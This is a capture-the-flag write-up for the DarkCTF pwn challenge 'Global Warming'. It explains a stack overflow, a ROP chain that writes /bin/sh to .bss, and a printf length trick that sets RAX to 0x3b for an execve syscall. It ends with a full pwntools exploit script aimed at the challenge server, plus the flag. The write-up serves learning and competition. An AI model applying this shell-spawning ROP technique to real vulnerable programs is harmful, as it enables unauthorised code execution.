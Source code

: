 # Writeup for Global Warming (Pwn) Challenge

### Info
```
Description : You came this far using Solar Designer technique and advance technique, now you are into the gr4n173 world where you can't win just with fake rope/structure but here you should fake the signal which is turing complete.

File : rrop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=9031d67e25112061a3f59a630a4da011a25bd4df, not stripped

Checksec :
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
### Analysis

This is the decompilation code of the binary. <br>
The main takes 0x1388 bytes from stdin into a 0xD0 buffer. Classic Buffer Overflow Vulnerability and it prints the start address of our buffer.<br>
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-D0h]

  nvm_init(*(_QWORD *)&argc, argv, envp);
  nvm_timeout();
  printf(
    "Hello pwners, it's gr4n173 wired machine.\n"
    "Can you change the behaviour of a process, if so then take my Buffer  @%p, from some part of my process.\n",
    &buf);
  read(0, &buf, 0x1388);
  return 0;
}
```
There is a function named UsefulFunction which provides us with a <b> syscall ; ret </b> gadget. So lets try to create a execve rop chain. 
```asm
push    rbp
mov     rbp, rsp
syscall                 ; LINUX -
retn
```

### Exploit

```
Name            : execve
rax             : 0x3b
rdi             : const char *name -> pointer to /bin/sh
rsi             : const char *const *argv -> "-c"
rdx             : const char *const *envp -> NuLL
```
We need to accomplish this by creating a ROP chain. Looking at gadgets i did not find any gadget which can control rax. So i used some fancy ROP trick.
First let us write the string "/bin/sh" to bss address. We can do that by calling read on bss address.

```python
padding = 'a' * 216

write_bin_sh = flat([

  padding,
  ret,
  pop_rdi,
  0x0,
  pop_rsi_r15,
  bss_addr,
  0xdeadbeef,
  exe.sym['read'],
  exe.sym['main']

])

exploit = padding + ret + write_bin_sh
io.sendline('/bin/sh\x00')
```
This rop chain will write "/bin/sh" to bss_addr and return to main once again nothing special here, Just some basic ROP technique :)

### Controlling RAX Register

So lets debug the binary with gdb. I have setup a breakpoint in the print statement [0x40081A].

![imgbb](https://i.ibb.co/HYB6pVs/before-printf.jpg)

Step one instruction.

![imgbb](https://i.ibb.co/x8M5yYT/after-printf.jpghttps://i.ibb.co/x8M5yYT/after-printf.jpg)

So why is RAX -> 0x9f ? This is what the binary printed.  
```
>>> hex(len("Hello pwners, it's gr4n173 wired machine.\nCan you change the behaviour of a process, if so then take my Buffer  @0x7ffe3a4f6130, from some part of my process.\n"))
==> '0x9f'
```
RAX stores the return value and the return value here is 0x9f the strlen of the contents printed to stdout. So we can call printf to print 0x3b characters to set RAX to our desired value. Basically this is what we will be doing `printf("%59c")` this will print 59 bytes of white spaces thereby setting the RAX to 0x3b.
So lets also write "%000059c" at the bss and call printf with RDI -> pointer to our string and RSI -> NuLL.

```python
write_bin_sh = flat([

  padding,
  ret,
  pop_rdi,
  0x0,
  pop_rsi_r15,
  bss_addr,
  0xdeadbeef,
  exe.sym['read'],
  exe.sym['main']

])

io.recvline()
io.recvline()

io.sendline(write_bin_sh)
io.sendline("%000059c\x00\x00\x00\x00\x00\x00\x00\x00/bin/sh\x00") # write %000059c some null characters and /bin/sh at the end

io.recvline()
io.recvline()

printf_fmt = bss_addr       # %000059c
null_char = bss_addr + 8    # Null chars
bin_sh = bss_addr + 16      # /bin/sh

set_rax = flat([

  padding,
  pop_rdi,
  printf_fmt,
  pop_rsi_r15,
  null_char,
  0xdeadbeef,
  exe.sym['printf'],
  0xdeadbeef                # return to 0xdeadbeef... basically seg faulting after our rop chain.

])


io.send(set_rax)
io.recv()

```
![imgbb](https://i.ibb.co/3pchbtk/control-rax.jpg)

### Summing up all together and executing shell

Now that we have set RAX to 0x3b, We can do a pop rdi and place the bin_sh string to it and pop rsi and set it to NuLL.

```python
setup_execve = flat([

  pop_rdi,
  bin_sh,
  pop_rsi_r15,
  0x0,
  0x0,
  syscall_ret

])
```

The complete exploit script.
```python
#!/usr/bin/python
io = remote('rrop.darkarmy.xyz', '7001')

pop_rdi = 0x00000000004008b3
ret = 0x00000000004005b6
bss_addr = 0x6011a0
syscall_ret = 0x00000000004007d2
pop_rsi_r15 = 0x00000000004008b1
padding = 'a' * 216

write_bin_sh = flat([

  padding,
  ret,
  pop_rdi,
  0x0,
  pop_rsi_r15,
  bss_addr,
  0xdeadbeef,
  exe.sym['read'],
  exe.sym['main']

])

io.recvline()
io.recvline()

io.sendline(write_bin_sh)
io.sendline("%000059c\x00\x00\x00\x00\x00\x00\x00\x00/bin/sh\x00")

io.recvline()
io.recvline()

printf_fmt = bss_addr
null_char = bss_addr + 8
bin_sh = bss_addr + 16

set_rax = flat([

  padding,
  pop_rdi,
  printf_fmt,
  pop_rsi_r15,
  null_char,
  0xdeadbeef,
  exe.sym['printf'],
  ret

])

setup_execve = flat([

  pop_rdi,
  bin_sh,
  pop_rsi_r15,
  0x0,
  0x0,
  syscall_ret

])

exploit = set_rax + setup_execve

io.send(exploit)
io.recv()
io.interactive()
```
![imgbb](https://i.ibb.co/LnyD0n8/shell.png)<br>
`Flag : darkCTF{f1n4lly_y0u_f4k3_s1gn4l_fr4m3_4nd_w0n_gr4n173_w1r3d_m4ch1n3}`<br>
![imgbb](https://i.ibb.co/Wkdgytk/jIk1rJT.jpg)
Anyways i liked the challenge and the CTF was really good Kudos to team Dark Army. My team Zh3r0 ranked 4th in the CTF. <br>
Zh3r0 : https://ctftime.org/team/116018
Dark Army : https://ctftime.org/team/26569
Dark CTF : https://ctftime.org/event/1118